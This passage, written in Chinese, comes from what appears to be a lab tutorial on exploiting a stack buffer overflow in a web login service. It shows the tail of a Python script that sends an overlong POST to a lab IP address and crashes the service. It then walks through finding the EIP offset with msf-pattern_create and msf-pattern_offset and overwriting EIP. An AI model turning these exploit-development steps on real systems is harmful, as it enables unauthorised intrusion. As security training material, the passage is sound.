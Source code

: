 ```
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Origin: http://10.211.55.8\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Referer: http://10.211.55.8/login\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "Content-Length: " + str(len(content)) + "\r\n"
    buffer += "\r\n"
    buffer += content

    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.211.55.8",80))
    s.send(buffer.encode())                                                                                  
    s.close()                                                                                       
    print("Done!")                                                                                  
except Exception as e:                                                                              
    print(e)                                                                                        
    print("something wrong") 
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605356863293-d993fa11-a3cb-4814-9f16-a20cfe8fdef6.png)

### 控制EIP

如上图所示，崩溃复现了，重复恢复服务，然后我们开始猜测这个EIP中覆盖之后的值是在我们字符中的什么地方，如果纯手工的话，可以通过二分法去猜测，比如现在是800个字符，我们用前400是A后400是B，然后如果EIP变成了B，那么说明在后半部分，然后再从后半部分分成200个B，200个C，就这样查下去，大概需要7次。文中介绍了 `msf-pattern_create` ，可以用 `-l` 指定长度，创建用于概念证明的字符串。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605358452280-792f4dca-92cf-404e-a0ab-6b2a29214c95.png)

我们将脚本中的 `inputBuffer` 变量的值改为生成的字符串，然后再复现一次崩溃：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605358665441-3f73bb86-1203-4578-8494-8503cb78ec1d.png)

通过上图，我们可以看到现在的EIP是 42306142，然后我们用 `msf-pattern_offset` 指令中的 `-q 42306142` 去查找它的具体位置，具体指令为：

```
msf-pattern_offset -l 800 -q 42306142
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605358911735-23b8a191-cff8-45f3-bcd3-a138a67f7566.png)

然后可以修改前780个字符为A，然后覆盖EIP的4个字符为B，然后剩下16个字符为C，然后重新验证一下：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605359346075-be9a5569-72b4-415f-8c2d-a58c8642e30a.png)
